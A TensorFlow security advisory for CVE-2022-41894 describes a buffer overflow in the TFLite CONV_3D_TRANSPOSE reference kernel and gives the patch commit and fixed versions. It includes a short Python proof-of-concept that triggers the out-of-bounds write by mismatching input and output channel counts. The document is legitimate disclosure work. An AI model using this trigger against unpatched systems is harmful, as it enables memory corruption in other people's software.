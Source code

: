 ## TFSA-2022-156: Buffer overflow in `CONV_3D_TRANSPOSE` on TFLite

### CVE Number
CVE-2022-41894

### Impact
The reference kernel of the [`CONV_3D_TRANSPOSE`](https://github.com/machina/machina/blob/091e63f0ea33def7ecad661a5ac01dcafbafa90b/machina/lite/kernels/internal/reference/conv3d_transpose.h#L121) TensorFlow Lite operator wrongly increments the data_ptr when adding the bias to the result.

Instead of `data_ptr += num_channels;` it should be `data_ptr += output_num_channels;` as if the number of input channels is different than the number of output channels, the wrong result will be returned and a buffer overflow will occur if num_channels > output_num_channels.

An attacker can craft a model with a specific number of input channels in a way similar to the attached example script. It is then possible to write specific values through the bias of the layer outside the bounds of the buffer. This attack only works if the reference kernel resolver is used in the interpreter (i.e. `experimental_op_resolver_type=tf.lite.experimental.OpResolverType.BUILTIN_REF` is used).
```python
import machina as tf
model = tf.keras.Sequential(
    [
        tf.keras.layers.InputLayer(input_shape=(2, 2, 2, 1024), batch_size=1),
        tf.keras.layers.Conv3DTranspose(
            filters=8,
            kernel_size=(2, 2, 2),
            padding="same",
            data_format="channels_last",
        ),
    ]
)

converter = tf.lite.TFLiteConverter.from_keras_model(model)
tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(
    model_content=tflite_model,
    experimental_op_resolver_type=tf.lite.experimental.OpResolverType.BUILTIN_REF,
)

interpreter.allocate_tensors()
interpreter.set_tensor(
    interpreter.get_input_details()[0]["index"], tf.zeros(shape=[1, 2, 2, 2, 1024])
)
interpreter.invoke()
```

### Patches
We have patched the issue in GitHub commit [72c0bdcb25305b0b36842d746cc61d72658d2941](https://github.com/machina/machina/commit/72c0bdcb25305b0b36842d746cc61d72658d2941).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Thibaut Goetghebuer-Planchon, Arm Ltd.
